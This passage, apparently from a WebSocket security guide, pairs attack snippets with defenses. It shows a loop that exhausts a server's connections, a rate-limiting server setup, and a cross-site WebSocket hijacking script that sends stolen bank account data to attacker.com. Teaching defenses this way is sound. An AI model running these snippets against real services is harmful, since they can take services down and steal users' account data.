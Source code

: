 ```
    }
});
```

### WebSocket Connection Exhaustion Attack
Attack Implementation:
```
// Attacker opens massive number of WebSocket connections
for (let i = 0; i < 10000; i++) {
    const ws = new WebSocket('wss://target.com/ws');
    ws.onopen = () => {
        // Keep connection alive but don't send data
        setInterval(() => ws.ping(), 30000);
    };
}
```

Defense Implementation:
```
const rateLimit = require('ws-rate-limit');

const wss = new WebSocket.Server({
    port: 8080,
    perMessageDeflate: false, // Disable compression to prevent zip bombs
});

// Rate limiting middleware
const limiter = rateLimit({
    max: 10, // Maximum 10 connections per minute per IP
    window: 60 * 1000, // 1 minute window
});

wss.on('connection', (ws, req) => {
    if (!limiter(req)) {
        ws.close(1008, 'Rate limit exceeded');
        return;
    }
    
    // Connection timeout
    const timeout = setTimeout(() => {
        ws.terminate();
    }, 300000); // 5 minutes
    
    ws.on('close', () => clearTimeout(timeout));
});

### Cross-Site WebSocket Hijacking Attack
```

<script>
const ws = new WebSocket('wss://bank.com/account-websocket');
ws.onmessage = function(event) {
    // Steal sensitive account data
    const data = JSON.parse(event.data);
    fetch('https://attacker.com/steal', {
        method: 'POST',
        body: JSON.stringify(data)
    });
};
</script>
```

Defense Implementation:
```
const crypto = require('crypto');